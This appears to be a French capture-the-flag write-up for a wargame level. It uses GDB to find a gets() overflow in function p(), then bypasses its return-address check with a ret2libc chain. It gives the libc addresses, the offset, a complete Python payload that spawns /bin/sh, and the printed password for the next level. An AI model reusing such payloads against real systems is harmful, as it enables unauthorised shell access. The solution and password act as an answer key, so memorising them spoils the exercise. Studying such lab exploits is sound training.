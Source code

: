En utilisant disass de GDB on voit l'utilisation de la fonction p()
en allant voir la fonction p() on remarque l'utilisation de gets ( qui va nous permettre d'utiliser un buffer overflow )
Mais apres gets() la fonction p va verifier l'adresse de retour de la fonction avec 0xb0000000
Nous ne pouvont donc pas overwrite EIP afin qu'il lance une fonction avec comme adresse 0xb.

En revanche on peut utiliser un ret2libc ce qui va nous permettre de bypass la verification de notre eip et donc de quand meme executer notre command pour lancer le shell.

Un ret2libc se forme comme ceci:

"notre buffer size max" + "l'adresse du return de la fonction p" + "l'adresse de la fonction system" + "l'adresse de la fonction exit ( qui sert de fonction de retour pour system )" + " notre argument pour la fonction system donc l'adresse de la string /bin/sh"

On peut recuperer toutes ces informations via gdb:
Il suffit de break le programme puis d'executer:

(adresse de system()) print &system --> 0xb7e6b060
(adresse de exit()) print &exit   --> 0xb7e5ebe0
(ret) disass p     --> 0x0804853e
(adresse de la string "/bin/sh") find &system, +9999999, "/bin/sh" --> 0xb7f8cc58


Il nous manque que l'offset afin de savoir quel taille fait notre buffer.
j'utilise un generateur de pattern pour faciliter la tache
( wiremask.eu   buffer overflow pattern generator)

La taille du buffer est donc de 80.

Nous pouvons donc maintenant faire notre input ( attention au little endian )
python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"

on ajoute juste la commande cat pour que le shell reste actif.

(python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')" ; cat) | ./level2

cat /home/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

